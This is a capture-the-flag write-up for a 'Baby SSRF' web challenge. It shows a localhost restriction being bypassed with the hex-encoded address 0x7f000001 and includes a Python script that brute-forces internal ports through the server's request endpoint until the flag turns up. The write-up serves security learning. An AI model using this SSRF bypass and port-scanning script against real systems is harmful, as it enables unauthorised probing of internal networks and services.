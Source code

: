 # Baby SSRF
Bypassing SSRF restrictions allowed scanning the ports and finding the flag.

## Enumeration
Visiting the page we find `/request` endpoint, which allows us to request website's response headers.

Challenge name includes [Server Side Request Forgery (SSRF)](https://portswigger.net/web-security/ssrf), so I tried to fetch localhost data. When requesting localhost headers, the server responded with: `Please dont try to heck me sir...`. I guessed there must be some kind of restriction which addresses are allowed.

I googled how to bypass localhost restrictions and found [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery). I tried those payloads one by one until `http://0x7f000001/` responded with `Learn about URL's First`. That worked somehow, but website didn't show any response headers.

## Solve

Challenge description gave us a hint `for i in range(5000,10000)`

Using that hint, I realized bruteforcing the port is the goal.

I created a small script using python

```python
from requests import post

res = set()
res.add(post("http://web.zh3r0.cf:1111/request", data={"url": f"http://0x7F000001:5001"}).text)
for port in range(5000,10000):
    r = post("http://web.zh3r0.cf:1111/request", data={"url": f"http://0x7F000001:{port}"})
    print(f"[+] Trying on http://0x7F000001:{port}")
    if r.text not in res:
        res.add(r.text)
        print(r.text)
        break
```

Script stopped at port 9006

Response included the flag:

### Flag
```
{'FLag': 'Zh3r0{SSRF_0r_wh4t3v3r_ch4ll3ng3}'}
```

